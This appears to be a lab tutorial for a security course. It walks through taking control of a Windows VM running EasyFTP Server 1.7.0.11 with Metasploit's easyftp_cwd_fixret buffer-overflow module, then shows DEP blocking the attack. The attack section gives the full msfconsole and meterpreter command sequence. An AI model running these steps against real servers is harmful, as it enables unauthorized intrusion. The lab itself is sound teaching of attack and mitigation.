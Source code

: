# Taking Control of a Server with Metasploit

## Description
- Take control of a server on which EasyFtp Server 1.7.0.11 is installed and on service with [Metasploit](https://www.metasploit.com/)
  - There is a vulnerability of stack-based buffer overflow in [EasyFTP Server 1.7.0.11 and earlier](https://www.rapid7.com/db/modules/exploit/windows/ftp/easyftp_cwd_fixret/)
  - There is an [exploit](https://www.exploit-db.com/exploits/14402) integrated with [metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/ftp/easyftp_cwd_fixret.rb)
- There are [many software](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=buffer+overflow) contain the vulnerability of buffer overflow, but not all of them can be used to take control of a server

## Equipments
- Both the Kali Linux VM 🐧 and the Windows server VM 🪟

## Tasks
On Windows server VM, 🪟

0. Stop the FileZilla server
1. Install, configure and run EasyFTP
   1. Download [EasyFTP Server 1.7.0.11](./easyftp-server-1.7.0.11-en.7z)
   2. unzip it with [7-zip](https://www.7-zip.org/). If you did not install 7-zip, download and install it first
   3. In the unzipped folder, run ftpconsole
   4. Stop the FTP service
   5. Configure the FTP service binding IP address to the Windows VM IP
   6. Restart EasyFTP Server. If the service won't start, delete the possibly installed broken version
   ```cmd
   :: open a command windows, run it as Administrator
   sc delete easyftpbasicsvr
   ```

On Kali Linux VM, 🐧 in a command terminal

2. Exploit the Windows target

```bash
# 2.1 Find a metasploit exploit
# ~$ - inside terminal msf> - inside metasploit
~$ msfconsole -q
msf> search easyftp

# 2.2 Select options and target
msf> use exploit/windows/ftp/easyftp_cwd_fixret
msf exploit(easyftp_cwd_fixret) > show options # find the required options

msf exploit(easyftp_cwd_fixret) > show targets

# 2.3 Exploit the target
msf exploit(easyftp_cwd_fixret) > set RHOST Windows_VM_IP
msf exploit(easyftp_cwd_fixret) > set TARGET Number_of_target_Windows_Universal - v1.7.0.11
msf exploit(easyftp_cwd_fixret) > exploit # enter meterpreter if succeeded

# 2.4 Loot the target
meterpreter > help
meterpreter > sysinfo

```

On Windows server VM, 🪟

3. Hardening the target machine by turning on Data Execution Protection (DEP) 
4. Restart Windows server VM then restart EasyFTP

On Kali Linux VM, 🐧

5. Launch the easyftp_cwd_fixret exploit again

On Windows server VM, 🪟

6. If you see a box pops up saying "ftpbasicsvr.exe has stopped working", then DEP has saved your server by stopping the attack!


# Reference
- [Project 3C: Metasploit v. EasyFTP](https://samsclass.info/123/proj14/p3cmet.htm)
- *Metasploit*
  - [METERPRETER BASIC COMMANDS](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)
  - [Ultimate List of Meterpreter Commands](https://www.hackers-arise.com/ultimate-list-of-meterpreter-command)
  - [Metasploit unleashed](https://www.offsec.com/metasploit-unleashed/)
